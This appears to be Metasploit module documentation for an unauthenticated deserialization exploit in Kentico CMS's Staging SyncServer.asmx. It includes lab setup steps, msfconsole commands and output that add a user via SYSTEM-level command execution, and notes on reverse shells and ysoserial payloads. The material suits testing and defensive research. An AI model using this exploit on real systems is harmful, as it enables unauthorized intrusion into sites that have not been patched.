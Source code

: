 ## Vulnerable Application

[Kentico CMS](www.kentico.com) CMS platform versions 12.0.14 and earlier are affected by an unauthenticated deserialization vulnerability in the Staging Service which can be leveraged by an attacker to execute arbitrary commands in the context of NT AUTHORITY\SYSTEM on the target. The vulnerability is triggered by sending a HTTP POST request to the SyncServer.asmx interface ProcessSynchronizationTaskData method stagingTaskData parameter request path in HTTP GET requests sent to the built-in web server. This module has been tested successfully on Windows 10 using exec and adduser payloads against Kentico v11. The vulnerable application is available for download at https://d82ujmuzqhypi.cloudfront.net/Kentico_11_0_trial.exe, https://d82ujmuzqhypi.cloudfront.net/Kentico_12_0_trial.exe, https://www.kentico.com/download-demo

## Verification Steps
  1. Install a vulnerable Kentico CMS Trial version.
  2. Access web instance admin interface at /admin/
  3. Default credentials are 'administrator' with blank password.
  4. Navigate to `Settings`, then expand `Settings` > `Versioning & Synchronization` > `Staging`
  5. Check `Enable Staging Service` and click `Save`
  6. Start `msfconsole`
  7. Do `use exploit/windows/http/kentico_staging_syncserver`
  8. Do `set RHOSTS ip` (Trial is limited to 127.0.0.1 remote HTTP clients, but paid versions are public websites)
  9. Do `set RPORT port` (installs with a random port within IISExpress for at least Trial versions)
  10. Do `check`
  11. Verify the target is detected
  12. Do `set PAYLOAD cmd/windows/exec`
  13. Do `set CMD calc`
  14. Do `exploit`
  15. Verify `calc.exe` launches. 

## Scenarios

### Kentico CMS v11.0 trial on Windows 10

```
msf5 > use exploit/windows/http/kentico_staging_syncserver
msf5 exploit(windows/http/kentico_staging_syncserver) > show options

Module options (exploit/windows/http/kentico_staging_syncserver):

   Name       Current Setting                    Required  Description
   ----       ---------------                    --------  -----------
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                                 yes       The target port (TCP)
   SSL        false                              no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /CMSPages/Staging/SyncServer.asmx  yes       Path to SyncServer.asmx
   VHOST                                         no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/kentico_staging_syncserver) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf5 exploit(windows/http/kentico_staging_syncserver) > set RPORT 62925
RPORT => 62925
msf5 exploit(windows/http/kentico_staging_syncserver) > check
[*] 127.0.0.1:62925 - The service is running, but could not be validated.
msf5 exploit(windows/http/kentico_staging_syncserver) > set PAYLOAD cmd/windows/adduser
PAYLOAD => cmd/windows/adduser
msf5 exploit(windows/http/kentico_staging_syncserver) > exploit

[+] 127.0.0.1:62925 - Payload success!
[*] Exploit completed, but no session was created.
```

```
Microsoft Windows [Version 10.0.18363.720]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net users

User accounts for \\WIN10

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
metasploit
The command completed successfully.


C:\Windows\system32>net user metasploit /del
The command completed successfully.
```

## Notes

  1. The IISExpress config is located in ~/Documents/IISExpress/config/applicationhost.config
  2. Port number can be changed or allow remote access by replacing 'localhost' with '*'
  3. To run IIS on command line, C:\PROGRA~1\IIS Express\iisexpress.exe /site:Kentico11 (etc)
  4. It might be possible to use a CmdStager or FileDropper but couldn't get it working in time. Might be a string limit and has issues with Unicode.
  5. Some reverse or bind payloads work if the environment is right.
  6. Other serialized injections are possible with `ysoserial.exe -f SoapFormatter` but untested.
